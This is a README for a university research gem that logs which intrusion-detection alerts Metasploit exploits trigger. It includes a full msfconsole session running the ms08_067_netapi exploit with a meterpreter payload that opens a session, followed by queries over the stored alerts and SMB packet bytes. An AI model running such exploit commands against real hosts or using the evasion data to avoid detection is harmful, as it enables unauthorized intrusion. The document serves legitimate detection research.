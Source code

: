 # FIDIUS fidius-evasiondb

The FIDIUS Evasion-DB Gem provides a database which contains knowledge about metasploit exploits and their corresponding Alert-Events produced by Intrusion Detection Systems (IDS). It includes a Metasploit plugin which supports the recording of thrown alerts during the execution of an exploit.

Description

This gem is developed in the context of the students project "FIDIUS" at the
University of Bremen, for more information about FIDIUS visit
[fidius.me](http://fidius.me/en).

## Installation

Simply install this package with Rubygems:

    $ gem install fidius-evasiondb

Then switch to the root directory of your Metasploit installation and run

    $ fidius-evasiondb -e

Follow the instructions. 

This Gem currently uses 2 databases:

 * ids_db: A PreludeManager-Database for fetching IDMEF-Events.
 * evasion_db: Knowledge-Database for information about Exploits and their IDMEF-Events.

Please note: The Evasion-DB Gem has only been tested with Linux systems
and might not work with Windows.

## Configuration

The database configuration can be found in

    path/to/your/metasploit/root/data/database.yml 

It has been tested with Postgres and MySQL databases but should work for others, too.

## Usage

There are two possibilities to use this Gem, either inside the Metasploit console (with a plugin) or from external scripts by requiring the Gem. 
The first method (use in msfconsole) is intended to generate knowledge about exploits. You can execute any module withhin metasploit 
and log corresponding IDMEF-Events. 

Please note: Currently it is only possible to fetch IDMEF-Events from an existing and configured PreludeManager-Database. At the beginning
of a module execution timestamp and number of total events in prelude are measured. After the module is finished newly generated
events are identified via timestamp and the attackers source ip.

### In msfconsole

* example for monitoring an exploit. After loading the plugin all modules which are executed by metasploit will be monitored.
All payload which is send to the target will be stored in the Knowledge-Database. After executing of the module finished generated
IDMEF-Events will be fetched from the Prelude-Database and stored to the Knowledge-Database, too.

        $ msf > load evasiondb
        $ [*] EvasionDB plugin loaded.
        $ [*] Successfully loaded plugin: FIDIUS-EvasionDB
        $ msf > use exploit/windows/smb/ms08_067_netapi
        $ msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/bind_tcp
        $ PAYLOAD => windows/meterpreter/bind_tcp
        $ msf exploit(ms08_067_netapi) > set RHOST 10.20.20.1
        $ RHOST => 10.20.20.1
        $ msf exploit(ms08_067_netapi) > exploit
        $ [*] Started bind handler
        $ [*] Automatically detecting the target...
        $ [*] Fingerprint: Windows XP - Service Pack 2 - lang:German
        $ [*] Selected Target: Windows XP SP2 German (NX)
        $ [*] Attempting to trigger the vulnerability...
        $ [*] Sending stage (749056 bytes) to 10.20.20.1
        $ [*] Meterpreter session 1 opened (10.0.0.100:52764 -> 10.20.20.1:4444) at 2011-03-28 16:42:53 +0200
        $ meterpreter > exit
        $ [*] Meterpreter session 1 closed.  Reason: User exit
        $ msf exploit(ms08_067_netapi) > show_events
        $ ------------------------------------------------------------
        $ exploit/windows/smb/ms08_067_netapi with 47 options
        $ ------------------------------------------------------------
        $ 11 idmef-events fetched
        $ ------------------------------------------------------------
        $ (1)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
        $ (2)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
        $ (3)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
        $ (4)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
        $ (5)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 0 bytes payload
        $ (6)COMMUNITY SIP TCP/IP message flooding directed to SIP proxy with 1324 bytes payload
        $ (7)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
        $ (8)ET POLICY PE EXE or DLL Windows file download with 1324 bytes payload
        $ (9)ET EXPLOIT x86 JmpCallAdditive Encoder with 759 bytes payload
        $ (10)ET EXPLOIT x86 JmpCallAdditive Encoder with 467 bytes payload
        $ (11)NETBIOS SMB-DS IPC$ share access with 72 bytes payload
        $ msf exploit(ms08_067_netapi) > 

### From external script

* require gem, connect_db
* Only queries possible

### Queries
Sample how the knowledge in EvasionDB can be queried:

        ruby-1.9.1-p378 > require 'fidius-evasiondb'
         => true 
        ruby-1.9.1-p378 > FIDIUS::EvasionDB.config "data/database.yml"
        ruby-1.9.1-p378 > events = FIDIUS::EvasionDB::Knowledge.find_events_for_exploit "exploit/windows/smb/ms08_067_netapi"
        ruby-1.9.1-p378 > events.size
         => 11 
        ruby-1.9.1-p378 > events.first.severity
         => "medium" 
        ruby-1.9.1-p378 > events.first.text
         => "COMMUNITY SIP TCP/IP message flooding directed to SIP proxy" 

### Find an Exploit
        ruby-1.9.1-p378 > m = FIDIUS::EvasionDB::Knowledge::AttackModule.first
         => #<FIDIUS::EvasionDB::Knowledge::AttackModule id: 1, name: "exploit/windows/smb/ms08_067_netapi", options_hash: "4d70ba1e95523e6d602e316a2553decf", finished: true, created_at: "2011-04-02 13:43:44", updated_at: "2011-04-02 13:45:05">

### Find IdmefEvents
        ruby-1.9.1-p378 > event = m.idmef_events.first
         => #<FIDIUS::EvasionDB::Knowledge::IdmefEvent id: 1, attack_module_id: 1, attack_payload_id: nil, payload: "wrong lookup type\x00\x00\x00unsupported algorithm\x00\x00\x00unknown...", detect_time: "2011-04-02 13:44:30", dest_ip: "10.20.20.1", src_ip: "10.0.0.100", dest_port: 4444, src_port: 45944, text: "COMMUNITY SIP TCP/IP message flooding directed to S...", severity: "medium", analyzer_model: "prelude-manager", ident: 1076676, created_at: "2011-04-02 13:45:03", updated_at: "2011-04-02 13:45:05"> 

### Find Packets
        ruby-1.9.1-p378 > m.packets.first
         => #<FIDIUS::EvasionDB::Knowledge::Packet id: 1, attack_module_id: 1, attack_payload_id: nil, src_addr: "0.0.0.0", dest_addr: "10.20.20.1", src_port: "0", dest_port: "445", payload: "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02...", created_at: "2011-04-02 13:43:47", updated_at: "2011-04-02 13:43:47"> 

### Find Payload of Packet
        ruby-1.9.1-p378 > m.packets.first.payload
         => "\x00\x00\x00T\xFFSMBr\x00\x00\x00\x00\x18\x01(\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xCD\x11\x00\x00\xB2|\x001\x00\x02LANMAN1.0\x00\x02LM1.2X002\x00\x02NT LANMAN 1.0\x00\x02NT LM 0.12\x00" 


### Find Options of Exploit
        ruby-1.9.1-p378 > m.attack_options.first.option_key
         => "EXITFUNC" 
        ruby-1.9.1-p378 > m.attack_options.first.option_value
         => "thread" 

## Authors and Contact

fidius-evasiondb was written by

* FIDIUS Intrusion Detection with Intelligent User Support
  <grp-fidius@tzi.de>, <http://fidius.me>
* in particular:
 * Bernhard Katzmarski <bkatzm@tzi.de>
 * Jens Färber <jfaerber@tzi.de>

If you have any questions, remarks, suggestion, improvements,
etc. feel free to drop a line at the addresses given above.
You might also join `#fidius` on Freenode or use the contact
form on our [website](http://fidius.me/en/contact).


## License

Simplified BSD License and GNU GPLv2. See also the file LICENSE.
